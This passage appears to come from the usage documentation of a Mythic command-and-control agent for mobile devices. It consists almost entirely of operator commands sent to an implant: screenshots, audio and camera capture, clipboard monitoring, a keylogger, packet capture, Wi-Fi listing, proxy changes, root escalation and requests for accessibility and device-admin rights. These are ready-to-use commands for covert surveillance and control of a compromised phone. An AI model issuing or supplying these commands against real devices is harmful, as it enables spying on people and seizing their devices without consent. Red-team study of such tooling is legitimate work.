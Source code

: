 #### Surveillance Operations
```bash
# Take screenshot
mythic-cli agent command --id <agent_id> --module surveillance --command screenshot

# Record audio (if permissions available)
mythic-cli agent command --id <agent_id> --module surveillance --command record_audio --args '{"duration": 30}'

# Monitor clipboard
mythic-cli agent command --id <agent_id> --module surveillance --command monitor_clipboard

# Capture camera image
mythic-cli agent command --id <agent_id> --module surveillance --command camera_capture --args '{"camera": "front"}'

# Start keylogger
mythic-cli agent command --id <agent_id> --module surveillance --command start_keylogger
```

#### Network Operations
```bash
# Network scan
mythic-cli agent command --id <agent_id> --module network --command scan_network

# Monitor network traffic
mythic-cli agent command --id <agent_id> --module network --command start_packet_capture --args '{"duration": 300}'

# Get Wi-Fi networks
mythic-cli agent command --id <agent_id> --module network --command list_wifi_networks

# Proxy configuration
mythic-cli agent command --id <agent_id> --module network --command set_proxy --args '{"host": "proxy.example.com", "port": 8080}'
```

### Advanced Commands

#### Privilege Escalation
```bash
# Check root status
mythic-cli agent command --id <agent_id> --module privilege --command check_root

# Attempt root escalation
mythic-cli agent command --id <agent_id> --module privilege --command escalate --args '{"method": "auto"}'

# Check accessibility service
mythic-cli agent command --id <agent_id> --module privilege --command check_accessibility

# Request device admin
mythic-cli agent command --id <agent_id> --module privilege --command request_device_admin
```
